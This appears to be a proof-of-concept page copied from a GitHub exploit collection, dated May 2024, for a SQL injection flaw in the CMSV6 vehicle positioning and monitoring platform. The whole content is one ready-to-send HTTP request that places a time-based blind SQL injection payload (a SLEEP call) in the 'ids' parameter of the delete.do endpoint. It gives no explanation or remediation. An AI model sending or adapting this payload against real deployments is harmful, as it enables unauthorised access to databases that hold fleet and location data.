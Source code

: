 # CMSV6_delete.do_sqli

2024.5.27
from: https://github.com/wy876/POC/blob/main/%E9%80%9A%E5%A4%A9%E6%98%9FCMSV6%E8%BD%A6%E8%BD%BD%E5%AE%9A%E4%BD%8D%E7%9B%91%E6%8E%A7%E5%B9%B3%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(XVE-2023-23744).md
```
GET /run_stop/delete.do;downloadLogger.action?ids=1)+AND+(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+&loadAll=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```
